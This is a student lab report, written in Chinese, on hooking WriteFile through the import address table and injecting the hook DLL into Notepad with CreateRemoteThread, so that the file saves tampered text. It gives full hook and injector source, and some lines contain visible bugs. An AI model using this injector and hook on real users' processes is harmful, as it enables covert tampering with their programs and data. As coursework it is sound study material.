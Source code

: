 # DLL注入实验报告

### 实验目的

+ 利用dll注入、hook篡改记事本行为，使得在记事本中输入“123456”，实际写入的内容是“654321”

### 实验原理

+ API hook：通过hook“接触”到需要修改的API函数入口点，改变它的地址指向新的自定义的函数，以此改变一个系统API的原有功能。、常见的API Hook包括2种， 一种是基于PE文件的导入表(IAT), 还有一种是修改前5个字节直接JMP的inline Hook
+ IAT hook：原理是PE文件里有个导入表， 代表该模块调用了哪些外部API，模块被加载到内存后， PE加载器会修改该表，地址改成外部API重定位后的真实地址， 我们只要直接把里面的地址改成我们新函数的地址， 就可以完成对相应API的Hook
+ notepad在写入文件时使用的是kernelbase模块的writefile函数，所以在进行IAT hook时，只需要将writefile的地址改为新写的函数地址
+ `injectAllTheThings`仓库中总结了七种DLL注入技术，其中CreateRemoteThread()技术的步骤主要有以下几步：
  1. 使用OpenProcess()函数打开目标进程
  2. 通过调用GetProAddress()函数找到LoadLibrary()函数的地址
  3. 通过调用VirtualAllocEx()函数在目标/远程进程地址空间中为DLL文件路径开辟内存空间
  4. 调用WriteProcessMemory()函数在之前所分配的内存空间中写入DLL文件路径
  5. 调用CreateRemoteThread()函数创建一个新的线程，新线程以DLL文件路径名称作为参数来调用LoadLibrary()函数

### 实验过程

#### Hook

+ 首先运行一个简单的IAT hook[例子](https://github.com/tinysec/iathook)，在本地vs2019新建项目hook，将示例仓库内的README.md保存为main.c函数，将IATHook.c保存在项目内，编译运行成功

  ![](image/hook_exam.png)

+ 示例仓库中使用的函数是MessageBoxA，其Hook方式是编写一个Fake_MessageBox改变地址，因此我们仿照其方法编写Fake_WriteFile函数

  ```
  int __stdcall Fake_WriteFile(
  	HANDLE       hFile,
  	LPCVOID      lpBuffer,
  	DWORD        nNumberOfBytesToWrite,
  	LPDWORD      lpNumberOfBytesWritten,
  	LPOVERLAPPED lpOverlapped
  	)
  {
  	
  	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);
  	char content[] = "654321";  //篡改的内容 
  	DWORD dwWrite;
  	return fnOrigin(fFile, &content, strlen(content), &dwWrite, lpOverlapped);
  }
  
  ```

  WriteFile函数所在模块为kernel32.dll，因此需要修改IATHook函数：

  ```
  IATHook(
  			GetModuleHandle(NULL),
  			"kernel32.dll",
  			"WriteFile",
  			Fake_WriteFile,
  			&g_hHook_WriteFile
  		);
  ```

  修改后的main.c文件为[main.c](https://github.com/Lyan0924/Reverse-engineering_Software-security/blob/main/Hook/script/main.c)

+ 检测Hook是否成功

  在主函数中添加以下内容以检测Hook是否成功，

  ```
  HANDLE hFILE = CreateFile("C:\\Users\\LM\\Desktop\\逆向工程\\test.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);//创建测试txt文件
  
  char buff[256] = "123456";
  
  DWORD dwWrite;
  
  WriteFile(hFILE, &buff, strlen(buff), &dwWrite, NULL); //在记事本中输入123456，若Hook攻击成功，则实际输入的内容是654321
  
  UnIATHook(g_hHook_WriteFile);
  
  CloseHandle(hFILE);
  ```

  

  调试，在运行到WriteFile函数时会发现跳转到了我们自己写的Fake_WriteFile函数内，并在记事本内写入篡改的内容，实现了Hook攻击

  ![](image/Hook_test.png)

#### DLL注入

+ 将上一步建立的项目生成DLL动态库

  + 修改项目属性的部分内容![](image/property.png)

    ![](image/def.png)

  + 生成dll动态库

    ![](image/dll.png)

+ 新建DLL注入项目inject，这里我使用CreateRemoteThread()的注入技术，编写代码inject.c,向指定进程中注入DLL

  ```
  #pragma warning(disable:4996)
  #include <windows.h>
  #include<stdio.h>
  #include <tchar.h>
  
  BOOL InjectDll(DWORD dwPID, LPCTSTR szDllPath) {
  
  	HANDLE hProcess = NULL;
  
  	HANDLE hThread = NULL;
  
  	HMODULE hMod = NULL;
  
  	LPVOID pRemoteBuf = NULL;  // 存储在目标进程申请的内存地址
  
  	DWORD dwBufSize = (DWORD)(_tcslen(szDllPath) + 1) * sizeof(TCHAR);  // 存储DLL文件路径所需的内存空间大小
  
  	LPTHREAD_START_ROUTINE pThreadProc;
  
  
  
  	if (!(hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID))) {
  
  		printf(L"OpenProcess(%d) failed!!! [%d]\n", dwPID, GetLastError());
  
  		return FALSE;
  
  	}
  
  	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);  // 在目标进程空间中申请内存
  	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)szDllPath, dwBufSize, NULL);  // 向在目标进程申请的内存空间中写入DLL文件的路径
  	hMod = GetModuleHandle(L"kernel32.dll");
  	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");  // 获得LoadLibrary()函数的地址
  	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
  	WaitForSingleObject(hThread, INFINITE);
  	CloseHandle(hThread);
  	CloseHandle(hProcess);
  	return TRUE;
  
  }
  
  
  int main() {
  	char szDllPath[] = "hook.dll";
  	printf("请输入进程号:");
  	DWORD dwPID;
  	scanf("%u", &dwPID);
  	if (InjectDll((DWORD)_tstol(dwPID), szDllPath))
  		printf("InjectDll(\"%s\") success\n", szDllPath);
  	else
  		printf(L"InjectDll(\"%s\") failed\n", szDllPath);
  	return 0;
  }
  
  ```

+ 使用notepad（32位）打开一个txt文件，查看其进程号，然后运行注入项目，输入PID，DLL注入成功

  ![](image/Pid.png)

  ![](image/inject.png)

+ 在txt中写入123456，再次打开会发现其内容变为了654321

  ![](image/result.png)

  

  

### 实验参考

+ [iathook](https://github.com/tinysec/iathook)

+ [HOOK技术的一些简单总结 ](https://www.cnblogs.com/weiym/p/3396274.html)

+ [多种DLL注入技术原理介绍](https://blog.csdn.net/fuhanghang/article/details/83795769)

+ [fdiskyou/injectAllTheThings: Seven different DLL injection techniques in one single project](https://github.com/fdiskyou/injectAllTheThings)

  
